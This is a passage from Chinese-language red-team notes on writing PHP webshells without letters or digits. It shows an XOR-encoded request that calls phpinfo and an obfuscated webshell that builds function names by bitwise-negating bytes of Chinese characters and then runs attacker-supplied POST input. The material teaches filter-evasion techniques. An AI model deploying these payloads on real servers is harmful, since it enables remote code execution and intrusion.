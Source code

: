 ![](../../../../../assets/img/Security/RedTeam/语言安全/PHP安全/无字母数字Webshell/3.png)

```
POST /?shell=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo

//${_GET}{%ff}();&%ff=phpinfo
经过一次 get 传参会进行一次 URL 解码，所以我们可以将字符先进行 url 编码再进行异或得到我们想要的字符。
```

**思路2**

通过位运算里的“取反”执行命令

利用的是 UTF-8 编码的某个汉字，并将其中某个字符取出来，比如 ('和'{2}) 的结果是 "\x8c"，其取反即为字母 s：

![](../../../../../assets/img/Security/RedTeam/语言安全/PHP安全/无字母数字Webshell/1.png)

利用这个特性
```php
<?php
$__=('>'>'<')+('>'>'<');
$_=$__/$__;

$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});

$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});

$_=$$_____;
$____($_[$__]);
```
